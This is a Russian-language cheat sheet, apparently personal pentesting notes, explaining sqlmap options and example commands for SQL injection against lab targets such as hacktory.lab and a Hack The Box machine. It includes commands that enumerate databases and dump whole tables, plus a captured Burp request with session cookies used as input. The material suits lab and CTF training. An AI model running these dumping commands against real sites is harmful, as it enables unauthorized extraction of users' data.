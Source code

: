 ## SQLMAP
**Опции:**

- `-u --url http://www.hacktory.lab/` – URL цели;
- `--data` – указываем параметры для тестирования, передающиеся в POST-запросе (например, `data=&quot;txtLoginID=skan&amp;txtPassword=pass&amp;cmdSubmit=Login&quot;`);
- `--crawl` – сканирование сайта с целевого URL. С помощью этой опции можно выставить глубину, ниже которой sqlmap не будет сканировать (например, --crawl=3);
- `-f --forms` – парсинг и анализ форм на целевом URL;
- `-dbs` – ключ для перечисления имеющихся баз данных;
- `-D db\_name` – указываем конкретную базу данных (например -Ddvwa);
- `-T table\_name` – указываем конкретную таблицу (например, -Tusers);
- `--dump-all` – вытягиваем значения из всех перечисленных столбцов.


**Примеры использования:**

- `sqlmap --url http://www.hacktory.lab/?id=1` – сканировать параметр id в интерактивном режиме;
- `sqlmap --url http://www.hacktory.lab/?id=1 --batch` – сканировать параметр id автоматически;
- `sqlmap --url http://www.hacktory.lab/?id=1 --dbs` – получить список БД;
- `sqlmap --url http://www.hacktory.lab/?id=1 -D db --tables` – для БД db получить список таблиц;
- `sqlmap --url http://www.hacktory.lab/?id=1 -D db -T table --dump-all` – для БД db и таблицы table получить все данные.


**Другие примеры:**
```
sqlmap --help
sqlmap -u "<url>" --cookie="name=value"
```
Для более детального сканирование можно скопировать нужный пакет с запросом из burpsuite в файл request.txt и далее использовать сканирование:
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch --dbs --threads 10 --hex 
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D <database> --tables --threads 10 --dump-all
```
```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D <database> -T <table> -C <column>,<column2> --dump --threads 10
```
где request.txt:
```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6ImVKeENTWE5uTmk0WEtQT0crMXJpM0E9PSIsInZhbHVlIjoiblo4V0tBdGF1REIvOEpadnl3eFRyMWF5Z29LWG1vWGFMaTFBSm1rYnUzMng2MHl4enpWR1paQ2ljaWNZQlZvQ2d4Uy9NbTloVThwSkRQemZwZ2VFNkFBdk15ZkVEOHd0ZzhhTjZtTHhIYSt4aEwrbGRsS0xxSHpGb1I1blZDOGMiLCJtYWMiOiI5NTFmNDBiMzJhZjBkMzhkMjNmNzRkMmUxMTZkYjg5OTBmOWM2MzE3NzIxNzViNjhkMTk3ZWI4ODYxM2FlOGYwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Im9wRVFkK0RRcFk4NlRpTmhUZys5dGc9PSIsInZhbHVlIjoiVUVwYXJtdWg5R3BZSWhEMHhnZDFOVTJZZkVzU3lPY1ViMUxtUWFKZUN5NFpNTHBmSGJRMjV5UDNOYm5IdXhqZGNnRDFicTBhekZYTnJrUXdTNWlWcEh2UVhPTmVlVmYwOXN6WlZzVGFkREZHWWlTOU91a3RNdEFUWGdLMFgwTGMiLCJtYWMiOiJiMzExMGE3ZDliYzczOWYxNzk2NGJiOTliZDQyYzdhZTQzMjBmZjZiZjZhY2QyYWE4YjkyNzg3MThiYTc5MTUzIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=NX6KOxDfLMuybJ3qXJh69reEQvm2aNkfNxeSui9U&email=qwelab
```